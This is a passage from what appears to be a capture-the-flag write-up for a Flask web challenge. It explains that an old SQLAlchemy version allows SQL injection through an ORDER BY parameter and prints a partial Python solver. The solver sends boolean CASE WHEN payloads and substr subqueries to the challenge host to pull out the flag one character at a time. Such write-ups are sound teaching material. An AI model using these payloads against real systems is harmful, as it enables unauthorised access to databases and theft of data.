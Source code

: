 ```python
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)


if __name__ == "__main__":
    seed_db()
    app.run(debug=False)

```

The most important part of the source is the `app.py` where we can see that the sqlalchemy uses order by. Given the version of `sqlalchemy` given in the `requirements.txt`, it is vulnerable to SQL injection using the order by parameter.

```
click==8.1.2
Flask==2.1.1
importlib-metadata==4.11.3
itsdangerous==2.1.2
Jinja2==3.1.1
MarkupSafe==2.1.1
SQLAlchemy==1.2.17
Werkzeug==2.1.1
zipp==3.8.0
```

Thus a boolean based blind injection can be done on the ORDER BY parameter

### Solver

```python
import requests
import hashlib


url = "http://challenge.nahamcon.com:31547/"

d = {}
text_to_search = "mium"
data = {
    "search": text_to_search,
    "order": f"CASE WHEN 1=1 THEN atomic_number ELSE name END"
}
r = requests.post(url, data=data)

d[hashlib.md5(r.text.encode()).hexdigest()] = True

data = {
    "search": text_to_search,
    "order": f"CASE WHEN 1=2 THEN atomic_number ELSE symbol END"
}
r = requests.post(url, data=data)

d[hashlib.md5(r.text.encode()).hexdigest()] = False

chars = "flag{_bcdehijkmnopqrstuvwxyz}"

i = 1
flag = ""
while True:
    start_i = i
    for char in chars:
        condition = f"(SELECT substr(flag,{i},1) FROM flag) = '{char}'"
```